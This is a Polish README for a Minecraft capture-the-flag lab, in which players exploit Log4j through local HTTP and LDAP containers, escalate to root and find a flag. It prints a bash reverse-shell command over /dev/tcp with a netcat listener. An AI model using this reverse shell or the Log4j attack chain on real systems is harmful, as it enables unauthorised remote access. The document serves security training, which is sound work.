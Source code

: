 # minecraft-ctf

## Wprowadzenie
Witamy w `minecraft-ctf`, wyjątkowym wyzwaniu CTF stworzonym specjalnie dla Was! Twoim zadaniem będzie zdobycie flagi, wykorzystując podatność Log4j oraz kilka innych narzędzi, a to wszystko co najlepsze, z użyciem gry, którą chyba każdy zna! Przygotuj się na fascynujące wyzwanie! Owocnego hackowania i udanej zabawy!

## Wymagania
- Java (jeśli jej nie masz, pobierz i zainstaluj)
- Docker
- Minecraft Launcher
- Jeśli pracujesz na Windowsie, koniecznym może się okazać WSL
- NetCat (niedostępny na Windowsie, użyj WSL lub zainstaluj osobno)

## Szybki start
### Uruchamianie SKLauncher
1. Otwórz SKLauncher, który również znajduje się w repozytorium.
2. Wybierz tryb offline.
3. Kliknij '+' obok "Installations Manager".
4. Wybierz release 1.8.8, zapisz i naciśnij PLAY.

### Uruchomienie serwera Minecraft i reszty potrzebnych kontenerów
1. **Uruchom swój serwer Minecraft'a:**
   - Plik konfiguracyjny kontenera serwera mc znajduje się w katalogu `Minecraft-Log4j-Exploit`.
   - Po zbudowaniu kontenera i uruchomieniu, w trybie Multiplayer w grze, dodaj serwer pod adresem 127.0.0.1.

2. **Uruchom serwer http:**
   - Plik konfiguracyjny znajduje się w katalogu `codehttp`.

3. **Uruchom serwer LDAP:**
   - Dockerfile znajduje się w katalogu `marshalsec`.

<details>
<summary><b>Informacje o kontenerach</b></summary>
Dwa spośród trzech odpalonych przez Ciebie kontenerów są "Twoje" - jako hacker je kontrolujesz. Nienależącym do Ciebie jest ten hostujący serwer Minecraft'a, do którego chcesz uzyskać dostęp. Pozostałe kontenery pomogą Ci w tej misji.
</details>

## Twoje zadanie
Wykorzystaj podatność starej wersji Log4j i inne narzędzia do zdobycia ukrytej flagi. Kod hostowany na httpcode musi być przygotowany i skompilowany. Znajdź i zmodyfikuj bashowy skrypt wykonywany z uprawnieniami roota. Jak uzyskasz uprawnienia roota, możesz odnaleźć w plikach kod, który następnie wpiszesz w serwerze Minecrafta. Jeśli kod okaże się poprawny - gratulacje hackerze/ko ;)

## Przydatne informacje

### Reverse Shell
```sh
# Nasłuchuj na porcie `5000` na swoim komputerze:
nc -l 5000

# Na komputerze ofiary:
bash -i >& /dev/tcp/[ip kompa na którym jest `nc` włączony]/5000 0>&1

# przykład:
bash -i >& /dev/tcp/172.17.0.1/5000 0>&1
```

### Budowanie obrazu:
```sh
# Stworzenie obrazu kontenera:
docker build . -t <nazwa-obrazu>

# Uruchomienie obrazu z przekierowaniem portów:
docker run -p 25565:25565 -ti <nazwa-obrazu>
```

### Konfiguracja EOL w VSCode
```sh
# Jeśli pracujesz na Windowsie, konieczna może okazać się zmiana EOL - End Of Line:
- Otwórz `Minecraft-Log4j-Exploit/server/start_server.sh`.
- Użyj `CTRL + SHIFT + P`.
- Zmień `EOL sequence`.
```

## Przydatne komendy 

### Docker
```sh
docker build
docker run
docker ps
docker ps -a
docker kill <id>
docker remove <id>
docker image prune
docker container prune
```

## Credits
- [Minecraft-Log4j-Exploit](https://github.com/Justin-Garey/Minecraft-Log4j-Exploit) od Justina Gareya
- [marshalsec](https://github.com/mbechler/marshalsec) od Marcina Bechlera
- [Smallest Docker Image Static Website](https://lipanski.com/posts/smallest-docker-image-static-website) od Vladimira Lipanskiego
- [Mapa Minecraft]() od XXX


TODO:
lf w starcie

wejsc na server mc wpisac komende

jak zatrzymać bash -c reverse shell?

echo to wbudowana funkcja basha, a nie żadna binarka 

allready allocated port: docker desktop delete container, 

find / -name "*flag*" 2>/dev/null
